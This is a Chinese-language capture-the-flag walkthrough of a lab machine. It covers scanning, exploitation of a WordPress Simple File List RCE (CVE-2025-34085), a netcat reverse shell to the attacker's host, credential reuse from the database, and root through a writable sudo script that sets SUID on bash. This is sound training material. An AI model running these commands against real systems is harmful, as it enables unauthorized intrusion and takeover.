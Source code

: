 # **一、信息收集**

## **1. 主机发现**

首先，使用 `arp-scan` 在 `192.168.205.0/24` 网段中扫描存活主机，确定目标。

```bash
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l
...
192.168.205.131 08:00:27:5f:2c:34       PCS Systemtechnik GmbH
...
```

命令输出确认了目标主机的IP地址为 `192.168.205.131`。

## **2. 端口扫描**

使用 `nmap` 对目标主机进行全端口扫描，以识别对外开放的服务。

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- 192.168.205.131
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```

扫描结果表明，目标主机开放了 **22 (SSH)** 和 **80 (HTTP)** 端口。Web服务是主要的攻击入口。

## **3. Web信息探测**

访问 `http://192.168.205.131` 是一个 Apache 的默认页面。使用 `gobuster` 进行目录爆破，发现了多个PHP页面。

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.205.131 -w ... -x php,txt,html
...
/index.php            (Status: 302) [Size: 0] [--> home.php]
/home.php             (Status: 200) [Size: 1954]
/about.php            (Status: 200) [Size: 1286]
/feedback.php         (Status: 200) [Size: 2189]
...
```

在浏览发现的页面时，`feedback.php` 的提交功能弹窗泄露了一个关键信息：`反馈已提交！服务端处理使用域名: plugin.dsz`。我们将此域名添加到本地 `/etc/hosts` 文件中。

配置好 `hosts` 后，使用 `nuclei` 对 `http://plugin.dsz` 进行自动化漏洞扫描，发现一个严重漏洞。

```bash
┌──(kali㉿kali)-[~]
└─$ nuclei -u http://plugin.dsz
...
[CVE-2025-34085] [http] [critical] http://plugin.dsz/wp-content/uploads/simple-file-list/aighbdh.php
[wordpress-rce-simplefilelist] [http] [critical] http://plugin.dsz/wp-content/uploads/simple-file-list/egafhad.php
...
```

扫描结果直指 **WordPress** 的 **Simple File List** 插件存在远程代码执行（RCE）漏洞 (CVE-2025-34085)。

## # **二、Web渗透与立足点**

## **1. RCE漏洞利用**

根据 `nuclei` 的扫描结果，我们找到了针对 `CVE-2025-34085` 的公开漏洞利用脚本。 该漏洞允许未经身份验证的攻击者上传一个伪装成图片的文件，然后将其重命名为 `.php` 文件，从而执行任意代码。

首先，使用漏洞利用脚本执行 `id` 命令，验证漏洞是否存在且可利用。

```bash
┌──(kali㉿kali)-[~/CVE-2025-34085]
└─$ python3 CVE-2025-34085.py -u http://plugin.dsz --cmd "id"
...
[DEBUG] Command Output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)

[+] http://plugin.dsz | http://plugin.dsz/wp-content/uploads/simple-file-list/cttlu7x9.php
```

命令成功返回 `www-data` 用户信息，确认RCE漏洞可以利用。

## **2. Getshell**

接下来，利用该漏洞获得一个反弹shell。首先在攻击机上设置 `netcat` 监听 `8888` 端口。

然后，执行以下命令，让目标主机反弹一个 `/bin/bash` shell。

```bash
┌──(kali㉿kali)-[~/CVE-2025-34085]
└─$ python3 CVE-2025-34085.py -u http://plugin.dsz --cmd "busybox nc 192.168.205.128 8888 -e /bin/bash"
```

攻击机成功接收到反弹shell，获得了 `www-data` 用户的访问权限。

---

# **三、权限提升**

## **1. 横向移动 (www-data -> yi)**

在 `www-data` shell中，我们首先寻找数据库配置文件。在Web根目录 `/var/www/plugin.dsz/` 中，找到了 `wp-config.php` 文件。

```bash
www-data@Plugin:/var/www/plugin.dsz$ cat wp-config.php
...
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpressuser' );
define( 'DB_PASSWORD', 'password' );
...
```

利用泄露的数据库凭据连接到本地MariaDB数据库，并查询 `wp_users` 表。

```sql
MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+ ... +---------------------+--------------+
| ID | user_login | user_pass                          | user_nicename | ... | user_activation_key | display_name |
+----+------------+------------------------------------+---------------+ ... +---------------------+--------------+
|  1 | root       | $wp$2y$10$...                       | root          | ... |                     | root         |
|  2 | yi         | b00b6ce41fbb3854fbfddcb71b5aa15d     | yi            | ... | eWl5aXlp            | eWl5aXlp     |
+----+------------+------------------------------------+---------------+ ... +---------------------+--------------+
```

我们发现了两个用户：`root` 和 `yi`。在 `yi` 用户的数据行中，`user_activation_key` 和 `display_name` 字段的值均为 `eWl5aXlp`。猜测这为`yi`用户密码。

使用 `su yi` 和密码 `eWl5aXlp`，成功切换到 `yi` 用户。

## **2. 提权至root (yi -> root)**

切换到 `yi` 用户后，执行 `sudo -l` 来检查其 `sudo` 权限。

```bash
yi@Plugin:~$ sudo -l
...
User yi may run the following commands on Plugin:
    (ALL) NOPASSWD: /bin/bash /home/yi/yiyi.sh
```

结果显示，`yi` 用户可以无需密码以root权限执行 `/home/yi/yiyi.sh` 脚本。由于 `yi` 用户对其家目录有写权限，我们可以轻易地替换掉这个脚本。

**提权步骤**:

1. 备份并替换原始脚本，写入一个可以为 `/bin/bash` 添加SUID权限的命令。

   ```bash
   yi@Plugin:~$ mv /home/yi/yiyi.sh /home/yi/1
   yi@Plugin:~$ echo 'chmod +s /bin/bash' > /home/yi/yiyi.sh
   ```

2. 以 `sudo` 权限执行被篡改后的脚本。

   ```bash
   yi@Plugin:~$ sudo /bin/bash /home/yi/yiyi.sh
   ```

3. 执行 `bash -p`。`-p` 参数使得 `bash` 在启动时不会放弃root权限，从而获得一个有效的root shell。

   ```bash
   yi@Plugin:~$ bash -p
   bash-5.0# id
   uid=1000(yi) gid=1000(yi) euid=0(root) egid=0(root) groups=0(root),1000(yi)
   ```

   `id` 命令的输出确认我们已成功获得root权限。

---

# **四、获取Flag**

现在我们拥有了root权限，可以读取系统上的所有敏感文件。

```bash
bash-5.0# cat /home/yi/user.txt
flag{user-058e8f474511327e5aeed4efa793033a}

bash-5.0# cat /root/root.txt
flag{root-ab9d82b9ae7d7d7256a95efe3447ec78}
```

所有Flag均已找到，渗透测试完成。